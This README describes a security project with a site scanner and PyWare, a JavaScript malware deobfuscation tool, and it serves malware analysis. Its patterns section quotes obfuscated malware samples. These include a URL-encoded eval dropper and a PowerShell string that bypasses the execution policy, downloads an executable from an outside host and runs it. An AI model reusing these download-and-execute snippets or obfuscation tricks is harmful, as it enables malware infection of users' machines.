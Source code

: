 # aau-security
Web application security project

## Nidan

A tool for scanning a huge range of web sites for security related issues, such as using an outdated JavaScript library.

## Database conventions

See [new_db_conventions.md](https://github.com/jwindelborg/aau-security/new_db_conventions.md)

## PyWare

Tool for analyzing JavaScript malware

To test the tool it is suggested to look at [HynekPetrak/javascript-malware-collection](https://github.com/HynekPetrak/javascript-malware-collection)

### Potential good files to test

* `20170122_38f3734379c19b7bfbb48e9f6ed4ca84.js`
* `20170118_e2e16d7c80ecd56b18d8b159cfda06bf.js`
* `20170323_05a3cc924d4c8c0699f8d72342482e51.js`
* `0160517_14d08a9ae081077e81db242655153c4b.js` -- Mentions Denmark?
* `20170301/20170301_bf55dc97b611f894f3550515d45a4171.js`
* `20170412_5a0493b8e4e62ae6455d848b644c21a3.js` -- Maybe a pretty good next step to be able to handle this file 

### PyWare todo

- [x] Handle simple string concatenations like `var t4 = "ht"+"tp";`
- [x] Handle string concatenations with declared string variables like `t4 + ":"+ter+ter` where *t4* is the *t4* assigned above
- [ ] Perform substring manipulations such as `var yYIMi = feuJN.substring(n, n+(304-303));` find more with `ag "\."substring"\("`
- [ ] Handle trivial arrays of strings
- [ ] Look more into reverse, split, join, charCodeAt and  charAt


### Patterns to try and solve

**Url encoding**

`20160328_509659787b4b25701f16c342ecb991fd.js`
```JavaScript
eval(keyHooks("_%20%3D%20%28%22WScr%22%29%2C%20superMatcher%20%3D%20%28%22Obje%22%29%3Bcontains%20%3D%20%28%22Slee%22%29%3B%20disabled%20%3D%20%28%22TP.3.%22%29%3B%20removeEventListener%20%3D%20%28%22T%22%29%3B%20overflowY%20%3D%20%28%22Sl%22%29%3Bstate%20%3D%20%285%29%3B%20needsContext%20%3D%20%28%22.6.0%22%29%3Belem%20%3D%20%28%22un%22%29%2C%20option%20%3D%20%28%22verX%22%29%3BpreDispatch%20%3D%20%2827%29%3Bfix%20%3D%20%28%22teObje%22%29%3B%20idx%20%3D%20%2889%29%3B%20dest%20%3D%20%28%22s%22%29%3B%20defaultExtra%20%3D%20%2829%29%3B%20first%20%3D%20%28%22op%22%29%3Bexpand%20%3D%20%28%22ADO%22%29%3B%20scale%20%3D%20%28%22Msxm%22%29%3B%20seekingTransport%20%3D%20%2864%29%3B%20all%20%3D%20%28%22Expan%22%29%3B%20timeout%20%3D%20%28%22hel%22%29%3B%20seed%20%3D%20%28%22t.cor%22%29%3Bvar%20bind%20%3D%20%28%22ateObj%22%29%2C%20winnow%20%3D%20%28%22eep%22%29%2C%20toggle%20%3D%20%282%29%2C%20textContent%20%3D%20%28%22rt%22%29%2C%20old%20%3D%20%281%29%3Bvar%20finalValue%20%3D%20%28%22/NOZ8%22%29%3BdefaultView%20%3D%20%2841%29%3B%20cached%20%3D%20eval%3B%20i%20%3D%20%28%22SaveT%22%29%3B%20match%20%3D%20%28%22totype%22%29%3B%20rxhtmlTag%20%3D%20%28%22ty%22%29%3BpostFinder%20%3D%20%28%22LHT%22%29%3B%20dataAndEvents%20%3D%20%28%22t%22%29%3B%20isPlainObject%20%3D%20%28%22uctor%22%29%3B%20rtypenamespace%20%3D%20%28%22iro%22%29%3B%20returned%20%3D%20%28122%29%3B%20get%20%3D%20%28%22d%22%29%3Bw%20%3D%20%289%29%3B%20cacheLength%20%3D%20%28%22Msxml%22%29%3B%20camelCase%20%3D%20%28%22length%22%29%3B%20css%20%3D%20%28%22P.6.%22%29%3BmozMatchesSelector%20%3D%20%28%22e%22%29%2C%20createFxNow%20%3D%20%28%22%3A//eku%22%29%2C%20cssPrefixes%20%3D%20%28218%29%3Bvar%20completeDeferred%20%3D%20%28%228JY.%22%29%2C%20safeActiveElement%20%3D%20%28function%20documentIsHTML%28%29%7B%7D%2C%20%22Stream%22%29%3Bvar%20triggered%20%3D%20%28%22stat%22%29%2C%20dataFilter%20%3D%20%28%22http%22%29%3BcreateCache%20%3D%20%2837%29%2C%20nativeStatusText%20%3D%20%28%22Micros%22%29%2C%20addToPrefiltersOrTransports%20%3D%20%28%22P%25/%22%29%2C%20getComputedStyle%20%3D%20%28function%20documentIsHTML.getAttribute%28%29%7Bvar%20nodeNameSelector%3D%20%5B%5D%5B%22constr%22%20+%20isPlainObject%5D%5B%22pro%22%20+%20match%5D%5B%22so%22%20+%20textContent%5D%5B%22apply%22%5D%28%29%3B%20return%20nodeNameSelector%3B%7D%2C%20%22WScrip%22%29%3Bwhat%20%3D%20%2814%29%3BcssFn%20%3D%20%28%22.com/%22%29%2C%20_queueHooks%20%3D%20%28%22verXML%22%29%2C%20undelegate%20%3D%20%28%22WSc%22%29%2C%20callbackName%20%3D%20%28%22MLHTT%22%29%3Bpop%20%3D%20%28%22n%22%29%2C%20rfxtypes%20%3D%20%28%22trings%22%29%2C%20noCloneChecked%20%3D%20%28%22nseBo%22%29%2C%20bubbleType%20%3D%20%28%22.XMLH%22%29%3Bbinary%20%3D%20%28%22dyS%22%29%2C%20nodeName%20%3D%20%28162%29%2C%20compareDocumentPosition%20%3D%20%28%22icc%22%29%3Brquery%20%3D%20%28114%29%3B%20left%20%3D%20%28%22.XM%22%29%3BnodeValue%20%3D%20%28%22pt%22%29%3B%20mapped%20%3D%20%28200%29%3B%20result%20%3D%20%283%29%3B%3B"));
// Url deded string
= ("WScr"), superMatcher = ("Obje");contains = ("Slee"); disabled = ("TP.3."); removeEventListener = ("T"); overflowY = ("Sl");state = (5); needsContext = (".6.0");elem = ("un"), option = ("verX");preDispatch = (27);fix = ("teObje"); idx = (89); dest = ("s"); defaultExtra = (29); first = ("op");expand = ("ADO"); scale = ("Msxm"); seekingTransport = (64); all = ("Expan"); timeout = ("hel"); seed = ("t.cor");var bind = ("ateObj"), winnow = ("eep"), toggle = (2), textContent = ("rt"), old = (1);var finalValue = ("/NOZ8");defaultView = (41); cached = eval; i = ("SaveT"); match = ("totype"); rxhtmlTag = ("ty");postFinder = ("LHT"); dataAndEvents = ("t"); isPlainObject = ("uctor"); rtypenamespace = ("iro"); returned = (122); get = ("d");w = (9); cacheLength = ("Msxml"); camelCase = ("length"); css = ("P.6.");mozMatchesSelector = ("e"), createFxNow = ("://eku"), cssPrefixes = (218);var completeDeferred = ("8JY."), safeActiveElement = (function documentIsHTML(){}, "Stream");var triggered = ("stat"), dataFilter = ("http");createCache = (37), nativeStatusText = ("Micros"), addToPrefiltersOrTransports = ("P%/"), getComputedStyle = (function documentIsHTML.getAttribute(){var nodeNameSelector= []["constr"   isPlainObject]["pro"   match]["so"   textContent]["apply"](); return nodeNameSelector;}, "WScrip");what = (14);cssFn = (".com/"), _queueHooks = ("verXML"), undelegate = ("WSc"), callbackName = ("MLHTT");pop = ("n"), rfxtypes = ("trings"), noCloneChecked = ("nseBo"), bubbleType = (".XMLH");binary = ("dyS"), nodeName = (162), compareDocumentPosition = ("icc");rquery = (114); left = (".XM");nodeValue = ("pt"); mapped = (200); result = (3);;
```

This patterns seems common, where meaningful strings are breaked by some kind of variable

```
var aznecad = "cmd.exe /c " + amgizann + "  $hemip='^emp+''\ebbydlu.';$ylqilgi='^wnloadFile(''ht';$pequ='^tp://seehasena';$yxfefb='^Scope    Process;';$yhoz='^olicy    Bypass -';$ryhu='^$path); Start-';$yqyv='^exe'');(New-Obj';$vilwidt='^s/outloo.exe'',';$jiwa='^Set-ExecutionP';$wxagyz='^chter.de/Style';$obsesu='^Process $path';$kwezcof='^ect   System.Net';$anezsy='^.Webclient).Do';$iculci='^ $path=($env:t'; Invoke-Expression ($jiwa+$yhoz+$yxfefb+$iculci+$hemip+$yqyv+$kwezcof+$anezsy+$ylqilgi+$pequ+$wxagyz+$vilwidt+$ryhu+$obsesu);\"";
```

```
var _87g6sd5fg = _87867t67t6gt["En"+"vi"+""+"ron"+"men"+"t"]("SY"+"S"+"T"+"E"+"M");
```

### Commands to help handle 40GB malware

We have ~40GiB JavaScript malware, spread in 39480 files selecting good files for debugging and testing can be challenging, the following command is a nice start.

It tries to find string concatenations and it uses [ag](https://github.com/ggreer/the_silver_searcher).

```
ag \"\ "\+"\ \"
```

To find and cat the files from the list use

```
find -name "*20170122_38f3734379c19b7bfbb48e9f6ed4ca84.js" -exec cat {} +
```

Another satisfying command to try is

```
ag \"\;"\n"
```

String concatenation with array
```
 ag \]\ "\+"\ \"
 ```

Var assignments starting with a string

```
 ag "(var )(([a-zA-Z])([a-zA-Z0-9$_])*)( = \")(([a-zA-Z0-9$_/:%.?=&()\-\,])*)(\")"
 ```

